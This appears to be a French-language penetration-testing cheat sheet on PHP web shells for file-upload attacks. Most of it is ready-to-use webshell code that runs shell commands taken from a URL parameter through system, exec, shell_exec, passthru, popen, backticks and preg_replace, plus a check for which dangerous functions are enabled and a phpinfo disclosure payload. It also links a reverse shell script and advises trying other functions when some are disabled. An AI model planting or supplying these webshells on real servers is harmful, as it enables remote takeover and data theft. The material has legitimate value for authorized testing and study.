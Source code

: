 # PHP

![](logo.png)

**Facteur de risque** : RCE via webshell, Information DIsclosure

**Extension** : `.php`, `.php3`, `.php4`, `.php5`, `.php7`, `.phar`, `.phps`, `php-s`, `.phpt`, `.pht`, `.phtm`, `.phtml`, `.inc`

**Description** : **PHP: Hypertext Preprocessor**, plus connu sous son sigle **PHP**, est un "langage de programmation" libre, principalement utilisé pour produire des pages Web dynamiques via un serveur HTTP (*Apache, lighttpd, nginx...*).

## Sommaire

- Remote Code Execution

- Information Disclosure

## Remote Code Execution

PHP possède plusieurs fonctions qui permettent d'exécuter des commandes : `system`, `exec`, `shell_exec`, `passthru`,`popen`, `proc_open`, et l'utilisation de backticks. Certaines de ces fonctions peuvent être désactivés pour des raisons de sécurités. Essayez dans ce cas les autres fonctions, au cas où s'ils ont oublié.

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur doit supporter le PHP

- Les fonctions d'exécution en PHP doivent être activés

- Les fichiers stockés doivent être exécutés via PHP (même pour les images)
  
  - Impossible de nos jours. La configuration par défaut de PHP consiste à exécuter l'interpréteur PHP uniquement pour les fichiers .php, à l'aide de NGinx, Apache, Lighttpd etc...

### Payload

#### system

```php
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```

La fonction `system` accepte la commande comme paramètre de la fonction, puis affiche le résultat.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

Prends l'entrée de la commande dans l'URL : example.com/system.php?cmd=whoami

#### exec

```php
<?php
exec($_GET['cmd'], $array);
echo "<pre>";
print_r($array);
echo "</pre>";
?>
```

La fonction `exec` accepte la commande comme paramètre de la fonction, mais n'affiche pas de sortie. Il faut spécifier un deuxième paramètre (ici `$array`) pour avoir le résultat sous forme de tableau. Puis `print_r` est utilisé pour afficher le résultat.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### shell\_exec

```php
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>"
?>
```

La fonction `shell_exec` accepte la commande comme paramètre de la fonction, et retourne le résultat sous forme ce chaîne. Puis `echo` est utilisé pour afficher le résultat.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### passthru

```php
<?php
passthru($_GET['cmd']);
?>
```

La fonction `passthru` accepte la commande comme paramètre de la fonction, et affiche le résultat brut.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### popen

```php
<?php
$handle = popen($_GET['cmd'],'r');
echo "<pre>".fread($handle,4096)."</pre>";
pclose($handle);
?>
```

La fonction `popen` crée un processus, qui est terminé avec `pclose`.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### Backticks `

```php
<?php
$output = `$_GET['cmd']`;
echo "<pre>$output</pre>";
?>
```

PHP exécute le contenu entre backticks comme des commandes. Puis le résultat est affiché avec `echo`, avec les balises `<pre>` pour garder le résultat préformaté.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

#### proc_open

La fonction `proc_open` est plus complexe à utiliser. Elle est utilisé dans le reverse shell de  pentestmonkey.net : http://pentestmonkey.net/tools/php-reverse-shell .

Ce script est conçu pour les situations où, lors d'un test d'intrusion, une fonction de téléversement de fichiers existe, et que le serveur web qui exécute le PHP.

Exécutez le fichier en accédant à son URL. Le script ouvrira une connexion TCP du serveur web vers un hôte et un port de votre choix.

Si, pour une raison ou une autre, le webshell ne fonctionne pas, nous pouvons passer aux commandes à l'ancienne comme system, exec, shell\_exec, passthru... etc. 

### Quels fonctions sont activés ?

Le code PHP suivant permet de déterminer les fonctions dangereuses autorisés :

```php
<?php
echo "<pre>";
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
echo "</pre>";
?>
```

D'autres webshells sont disponibles dans votre Kali Linux : /usr/share/webshells/PHP

#### preg\_replace

```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

## Information Disclosure

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur supporte le PHP

### Payload

La fonction `phpinfo` affiche de nombreuses informations sur la configuration de PHP, ce qui constitue une divulgation d'information.

**phpinfo.php**

```php
<?php
phpinfo();
?>
```

## References

[Web Shells 101 Using PHP (Web Shells Part 2) | Acunetix](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

[PHP: popen - Manual](https://www.php.net/manual/en/function.popen.php)

https://www.dynamicciso.com/web-shells-in-php-detection-and-prevention-part-1/

[security - Exploitable PHP functions - Stack Overflow](https://stackoverflow.com/questions/3115559/exploitable-php-functions)

[[Résolu] Fonctions PHP plus exploitables | php | Prograide.com](https://prograide.com/pregunta/2693/fonctions-php-plus-exploitables)

[php-reverse-shell | pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

[Webshell &#xB7; Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

## Todo

- Vérifier les fonctions définies en PHP

- Faire un webshell avec proc\_open, pcntl\_exec ou eval(), preg\_match() avec le flag /e, show\_source, asser() (
  
  ```
  <?php @CENSORED($_POST['password']);?>)
  ```

- Ajouter les différents payloads avec les diférents extentsions de PHP

- Vérifier qu'un paramètre est présent

- 

